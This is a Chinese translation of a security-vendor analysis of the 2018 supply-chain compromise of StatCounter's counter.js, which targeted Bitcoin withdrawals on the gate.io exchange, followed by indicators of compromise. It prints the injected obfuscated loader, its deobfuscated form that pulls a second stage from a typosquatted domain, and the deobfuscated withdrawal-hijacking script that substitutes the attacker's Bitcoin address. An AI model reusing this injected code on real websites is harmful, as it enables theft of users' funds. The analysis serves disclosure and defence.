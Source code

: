 > 原文链接: https://www.anquanke.com//post/id/163744 


# 针对密币交易所gate.io的供应链攻击


                                阅读量   
                                **177068**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：welivesecurity.com
                                <br>原文地址：[https://www.welivesecurity.com/2018/11/06/supply-chain-attack-cryptocurrency-exchange-gate-io/](https://www.welivesecurity.com/2018/11/06/supply-chain-attack-cryptocurrency-exchange-gate-io/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01a351d8582020dfe6.jpg)](https://p5.ssl.qhimg.com/t01a351d8582020dfe6.jpg)



## 一、前言

11月3日，攻击者成功攻陷了网络分析平台StatCounter，这是业内处于领先地位的一个平台，许多网站管理员都使用该服务来收集访问者的统计信息，这项服务与Google Analytics非常相似。 为了收集统计信息，网站管理员通常会在每个网页中添加一个外部JavaScript代码，其中包含来自StatCounter的一段代码（ `www.statcounter[.]com/counter/counter.js`）。 因此，只要搞定StatCounter平台，攻击者就可以在使用StatCounter的所有网站中注入JavaScript代码。

根据[官网](http://gs.statcounter.com/faq#methodology)描述，StatCounter拥有的会员已超过200万人次，每月的页面浏览量超过100亿次。 这些信息与该网站在Alexa的排名（略高于5000）相符。Debian Linux发行版的官方网站debian.org的Alexa排名与之不相上下，对比后大家可以对该服务规模有个大致的了解。

[![](https://p2.ssl.qhimg.com/t01c6645d3f297ba7f9.png)](https://p2.ssl.qhimg.com/t01c6645d3f297ba7f9.png)

## 二、脚本攻击

攻击者修改了`www.statcounter[.]com/counter/counter.js`脚本，在脚本中添加了一段恶意代码。经过格式化的脚本如下所示，清注意中间部分的代码。 这种添加方式并不常见，因为攻击者通常会在合法文件的开头或结尾添加恶意代码。 人们通常难以通过大致浏览定位到注入现有脚本中间区域的恶意代码。

```
eval(function(p, a, c, k, e, r) `{`
    e = function(c) `{`
        return c.toString(a)
    `}`;
    if (!''.replace(/^/, String)) `{`
        while (c--) r[e(c)] = k[c] || e(c);
        k = [function(e) `{`
            return r[e]
        `}`];
        e = function() `{`
            return '\w+'
        `}`;
        c = 1
    `}`;
    while (c--)
        if (k[c]) p = p.replace(new RegExp('\b' + e(c) + '\b', 'g'), k[c]);
    return p
`}`('3=""+2.4;5(3.6('7/8/9')&gt;-1)`{`a 0=2.b('d');0.e='f://g.h.i/c.j';0.k('l','m');2.n.o.p(0)`}`', 26, 26, 'ga||document|myselfloc|location|if|indexOf|myaccount|withdraw|BTC|var|createElement||script|src|https|www|statconuter|com|php|setAttribute|async|true|documentElement|firstChild|appendChild'.split('|'), 0, `{``}`));
```

该脚本使用Dean Edwards工具进行混淆，这可能是最受欢迎的JavaScript加壳工具。但是我们很容易就可以解开经过该工具处理的代码，最终还原出实际运行的脚本代码，如下所示。

```
myselfloc = '' + document.location;
if (myselfloc.indexOf('myaccount/withdraw/BTC') &gt; -1) `{`
    var ga = document.createElement('script');
    ga.src = 'https://www.statconuter.com/c.php';
    ga.setAttribute('async', 'true');
    document.documentElement.firstChild.appendChild(ga);
`}`
```

这段代码首先会检查URL中是否包含`myaccount/withdraw/BTC`。 因此，我们已经可以猜到攻击者的目标是比特币平台。 如果满足该条件，脚本将继续向网页添加新的脚本元素，包含源自于`https://www.statconuter [.]com/c.php`的代码。

需要注意的是，攻击者注册的域名非常与`statcounter[.]com`（StatCounter的合法域名）非常类似，攻击者只修改了其中两个字母，这样安全人员在扫描日志、查找异常活动时很难注意到这些异常。 有趣的是，在查看该域名的Passive DNS数据时，我们发现该域名已经因为滥用操作于2010年被暂停解析。

[![](https://p2.ssl.qhimg.com/t01b57ae2391db8cefe.png)](https://p2.ssl.qhimg.com/t01b57ae2391db8cefe.png)

如前文所述，攻击脚本以特定的URI（Uniform Resource Identifier）为目标：`myaccount/withdraw/BTC`。 事实证明，在本文撰写时，互联网的各种密货交换服务中只有gate.io页面具备这种URI特征。 因此，这个交换所似乎是这次袭击的主要目标。 该交易所非常受人们欢迎，其Alexa排名26,251，在中国排名8,308。

[![](https://p5.ssl.qhimg.com/t018213282f27bc7a8b.png)](https://p5.ssl.qhimg.com/t018213282f27bc7a8b.png)

此外，根据`coinmarketcap.com`的数据显示，该平台的每日交易量可达数百万美元，其中包括160万美元的比特币（bitcoin）交易。 因此，如果攻击者能在该平台上大规模窃取加密货币，可能获利颇丰。

[![](https://p4.ssl.qhimg.com/t01ea78284932c60c1f.png)](https://p4.ssl.qhimg.com/t01ea78284932c60c1f.png)

`https://www.gate[.]io/myaccount/withdraw/BTC`所对应的页面如下图所示，gate.io账户可以将比特币转移到外部比特币地址。

[![](https://p5.ssl.qhimg.com/t015c43435f36ca9a72.png)](https://p5.ssl.qhimg.com/t015c43435f36ca9a72.png)

第二阶段攻击载荷来自于`statconuter[.]com/c.php`，不出所料，事实证明该载荷的目标的确是窃取比特币。 这也是为什么攻击者会将脚本注入gate.io的比特币转移页面。 这个脚本同样经过Dean Edwards混淆处理，去混淆后的代码如下所示。

```
document.forms[0]['addr'].value = '';
document.forms[0]['amount'].value = '';
doSubmit1 = doSubmit;
doSubmit = function () `{`
    var a = document.getElementById('withdraw_form');
    if ($('#amount').val() &gt; 10) `{`
        document.forms[0]['addr']['name'] = '';
        var s = $("&lt;input type='hidden' name='addr'/&gt;");
        s.attr('value', '1JrFLmGVk1ho1UcMPq1WYirHptcCYr2jad');
        var b = $('#withdraw_form');
        b.append(s);
        a.submit();
    `}` else if (document.getElementById('canUse').innerText &gt; 10) `{`
        document.forms[0]['addr']['name'] = '';
        var s = $("&lt;input type='hidden' name='addr'/&gt;");
        s.attr('value', '1JrFLmGVk1ho1UcMPq1WYirHptcCYr2jad');
        var b = $('#withdraw_form');
        b.append(s);
        document.forms[0]['amount']['name'] = '';
        var t = $("&lt;input type='hidden' name='amount'/&gt;");
        t.attr('value', Math.min(document.getElementById('canUse').innerText, document.getElementById('dayLimit').innerText));
        b.append(t);
        a.submit();
    `}` else `{`
        doSubmit1();
    `}`
`}`;
```

在正常的gate.io网页中存在有一个`doSubmit`函数，当用户点击提交按钮时就会调用该函数，攻击者在这里重新定义了该函数。

该脚本会自动将目标比特币地址替换为攻击者自己的地址，例如`1JrFLmGVk1ho1UcMPq1WYirHptcCYr2jad`。 每当访问者加载`statconuter[.]com/c.php`脚本时，恶意服务器都会生成一个新的比特币地址。 因此，我们很难知道有多少比特币已经被转移到攻击者手中。

攻击者会根据受害者具体输入的BTC数额（是否超过10 BTC）来确认转移数额，攻击脚本要么直接使用用户输入的数额，要么使用受害者帐户的每日提款限额。对于我们的测试帐户，默认情况下提款限额被设置为100 BTC。 最后，恶意脚本提交表单，将比特币从受害者帐户转移到攻击者的钱包。

这种转移操作可能对受害者来说并不明显，因为只有在用户点击提交按钮后才会执行地址替换操作。 因此，地址替换攻击动作非常快，甚至可能不会显示给终端用户。

每次服务器将恶意脚本发送给受害者时都会生成一个新的比特币地址，因此我们无法得知攻击者总共收集了多少比特币。 举个例子，如果我们检查在测试环境中获取的地址，可以发现该地址的余额为0 BTC。

[![](https://p3.ssl.qhimg.com/t01c662c88d99a5d0e4.png)](https://p3.ssl.qhimg.com/t01c662c88d99a5d0e4.png)

## 三、总结

虽然我们不知道在此次攻击活动中有多少比特币被盗，但还是能够澄清攻击者在攻击某个特定网站（特别是加密货币交易所）时的具体攻击路径。为了完成攻击任务，攻击者破坏了提供分析服务的站点（超过200万个其他网站使用了该服务，其中包括几个与政府相关的网站），以此为跳板从一个密货交易网站用户手中窃取比特币。

此次攻击事件表明，即使网站已保持更新并受到较好保护，仍然容易受到最为薄弱一环的影响，在本案例中，木桶的短板指向的是外部资源。这也给我们提了一个提醒：外部JavaScript代码由第三方控制，随时可能被修改，修改后用户可能无法发现。

我们发现此次恶意活动后第一时间通知了StatCounter以及gate.io。



## 四、IoC

恶意网址：

```
statcounter[.]com/counter/counter.js
statconuter[.]com/c.php
```
